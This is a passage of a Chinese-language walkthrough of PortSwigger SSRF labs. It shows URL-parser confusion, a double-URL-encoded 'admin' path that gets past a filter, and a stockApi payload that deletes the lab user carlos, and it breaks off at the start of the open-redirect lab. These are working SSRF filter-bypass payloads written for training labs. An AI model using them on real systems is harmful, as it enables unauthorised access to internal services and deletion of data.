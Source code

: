 **绕过限定的URL**：

```bash
# 例如
http://www.baidu.com@www.qq.com    # 实则访问www.qq.com

```



> https://www.secpulse.com/archives/65832.html





但是加上admin路径，又被拦截：

![image-20250307151946259](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307151946259.png)





对路径`admin`进行双重url编码，绕过：

![image-20250307152150230](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307152150230.png)



删除用户，跟随重定向：

```
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```





![image-20250307152301941](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20250307152301941.png)











### 5.通过开发重定向漏洞绕过过滤器的SSRF

[SSRF with filter bypass via open redirection vulnerability](https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection)



该实验室具有库存检查功能，可以从内部系统获取数据。 要解决该实验，请更改库存检查 URL 以访问管理界面，http://192.168.0.12:8080/admin并删除用户carlos。 库存检查器被限制只能访问本地应用程序，因此您需要首先找到影响应用程序的开放重定向







1.访问产品，单击“检查库存”，在Burp Suite中拦截请求，并将其发送到Burp Repeater。

